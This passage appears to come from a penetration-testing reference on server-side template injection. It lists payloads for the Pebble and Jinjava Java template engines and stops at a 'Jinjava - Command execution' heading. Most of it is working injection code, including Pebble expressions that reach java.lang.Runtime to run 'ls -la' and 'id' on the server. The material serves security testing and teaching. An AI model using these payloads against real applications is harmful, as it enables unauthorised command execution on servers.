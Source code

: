 
[EL - Expression Language](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/el-expression-language)

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pebble-java)

Pebble (Java)

- `{{ someString.toUPPERCASE() }}`
    

Old version of Pebble ( < version 3.0.9):



```
{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}
```

New version of Pebble :



```
{% set cmd = 'id' %}





{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinjava-java)

Jinjava (Java)



```
{{'a'.toUpperCase()}} would result in 'A'
{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
```

Jinjava is an open source project developed by Hubspot, available at [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/)

**Jinjava - Command execution**

